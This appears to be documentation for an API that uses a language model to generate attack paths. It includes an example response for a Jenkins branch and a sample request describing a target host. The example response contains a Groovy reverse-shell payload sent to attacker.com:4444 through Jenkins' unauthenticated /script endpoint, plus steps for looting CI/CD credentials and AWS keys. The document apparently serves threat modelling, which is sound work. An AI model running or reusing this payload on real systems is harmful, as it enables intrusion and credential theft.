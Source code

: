 **Response:**
```json
{
  "branch_id": "B1",
  "bifurcation_index": 0,
  "from_stage": 3,
  "continuation_path": [
    "Installation: From container, access Jenkins /script endpoint without authentication. Execute Groovy script to gain code execution on Jenkins server: 'def proc = \"bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'\".execute(); println proc.text'. Establish foothold on Jenkins host.",
    "Command and Control: Set up persistent reverse shell from Jenkins server to attacker infrastructure. Jenkins process runs as 'jenkins' user with access to all build artifacts and credentials. Configure automatic reconnection via Jenkins system Groovy script hook.",
    "Actions on Objectives: Access Jenkins credentials store containing AWS keys, GitHub tokens, and production database passwords. Exfiltrate CI/CD pipeline secrets including service account credentials. Download all build artifacts and source code repositories accessible to Jenkins. Leverage AWS credentials to access production cloud infrastructure."
  ]
}
```

**Characteristics:**
- Contains continuation path for ONE specific branch (B1)
- Starts from the bifurcation point (stage 3)
- Generates remaining stages (4-7 → Installation, C2, Actions on Objectives)
- Specific to the alternative technique (Jenkins exploitation)
- Response time: ~3-5 seconds (1 LLM call)
- Cost: ~$0.005-0.01

**User Control:** If user is also interested in branch B2 (MySQL pivot), they can call:
`POST /attack-path/bifurcations/0/branches/B2`

This generates the MySQL branch continuation independently, and user only pays for what they need!

---

### Example 4: Complete Endpoint Response ⭐ **RECOMMENDED FOR PRODUCTION**

**Endpoint:** `POST /attack-path/complete`

**Request (Single Call):**
```json
{
  "platform": "Linux",
  "version_os": "Ubuntu 20.04",
  "open_ports": [2375, 8080, 3306],
  "services": [
    "Docker API on port 2375",
    "Jenkins 2.346.1 on port 8080",
    "MySQL 5.7.33 on port 3306"
  ],
  "vulnerabilities": [
    "CVE-2021-41773: Apache path traversal",
    "CVE-2021-3156: Sudo heap overflow"
  ],
  "security_controls": ["fail2ban"],
  "mfa_enabled": false,
  "internet_exposed": true,
  "configurations": ["Docker API exposed without TLS authentication"]
}
```

